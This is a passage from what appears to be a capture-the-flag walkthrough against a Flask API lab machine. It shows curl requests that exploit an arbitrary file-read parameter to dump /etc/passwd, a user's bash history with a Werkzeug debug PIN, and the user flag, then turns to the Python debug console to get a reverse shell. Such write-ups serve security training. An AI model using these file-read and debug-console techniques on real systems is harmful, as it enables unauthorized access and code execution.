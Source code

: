 ```bash
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

Pulling ```Sid's``` bash history to reveal the PIN ```123-321-135``` allowing access to the console.

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/home/sid/.bash_history
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

___

## User Flag

Pulling the user flag with the arbitrary read vulnerability.

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/home/sid/user.txt     
4ea65eb80---snip---ddf7b964ab
```

___

## Console Reverse shell

Logging in to discover /console is an interactive python shell
![python shell](console.png)
